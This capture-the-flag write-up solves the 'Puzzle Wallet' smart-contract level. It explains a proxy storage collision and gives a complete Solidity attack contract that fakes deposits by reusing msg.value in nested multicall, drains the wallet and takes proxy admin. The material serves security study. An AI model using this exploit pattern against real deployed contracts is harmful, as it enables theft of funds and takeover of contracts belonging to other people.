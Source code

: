 ### Goals

Become admin of the Proxy.

### Exploit

The order of variables in implementation contact should match with proxy contract. This level does not implement that correctly so we will need to exploit this.

Since storage collision exists, setting `PuzzleWallet::maxBalance()` to some address will effectively change the owner of Proxy contract. That's what we will do.

Steps:

1. `PuzzleProxy::proposeNewOwner()` -> will write arbitrary address as pendingOwner but for `Implementation` the slot0 is owner slot. So we will have ownership of the implementation contract.

2. `PuzzleProxy::addToWhitelist()` -> since we are owner now we can addToWhitelist some account to be able to call other functions.

3. Now we can call `setMaxBalance` but this function requires that contract balance is equal to 0. So we will need to purge the contract balance first. The only function that withdraws funds from contract is `execute`. However it does not allow to withdraw more then have been deposited by the sender.

4. Multicall function allows to wrap multiple calls. It does not allow calling deposit twice, to not reuse the `msg.value` (delegatecall forwards also the value send). But does it really? We could do some smart hacking here to bypass this check.

5. After we manage to artificially increase our balance we will be able to withdraw whole PuzzleWallet balance and call other functions for claiming ownership.

### Code

Deploy contract in Remix

```code
contract Evil25 {
    IPuzzle t = IPuzzle(YOUR_INSTANCE_ADDRESS);

    function pwn() external payable {
        // set this address as owner in implementation
        t.proposeNewAdmin(address(this));

        // add to whitelist so we can call other functions
        t.addToWhitelist(address(this));

        // deposit funds so we can call execute
        t.deposit{value: 0.001 ether}();


        // call multicall with special payload which calls deposit, then calls multicall again with deposit thus bypassing check on `deposit`. The contract balance starts with 0.001 eth so we will need to only call deposit once more, to forge our balance.

        bytes[] memory data = new bytes[](2);
        bytes[] memory data2 = new bytes[](1);

        data[0] = abi.encodeWithSelector(IPuzzle.deposit.selector);
        data2[0] = abi.encodeWithSelector(IPuzzle.deposit.selector);
        data[1] = abi.encodeWithSelector(IPuzzle.multicall.selector, data2);

        // it will reuse 0.001 ether, so we would deposit 0.002 ether in contract understanding (in total we will end up with 0.003 assuming earlier deposit which will equal to contracts balance)
        t.multicall{value: 0.001 ether}(data);

        // now we can withdraw whole balance
        t.execute(address(this), 0.003 ether, "");

        // since balance is purged we can now call `setMaxBalance` with encoded our address, which for Proxy contract will be admin
        t.setMaxBalance(uint256(uint160(address(this))));

        // lastly approve address(this) as admin
        t.approveNewAdmin(address(this));

        // transfer ownership to user
        t.proposeNewAdmin(msg.sender);
        t.approveNewAdmin(msg.sender);
    }

    // we need to be able to receive funds from PuzzleWallet
    receive() external payable {}
}
```

Deploy contract and top-up with 0.002 eth (could also modify pwn as payable) and call `pwn`

Done!
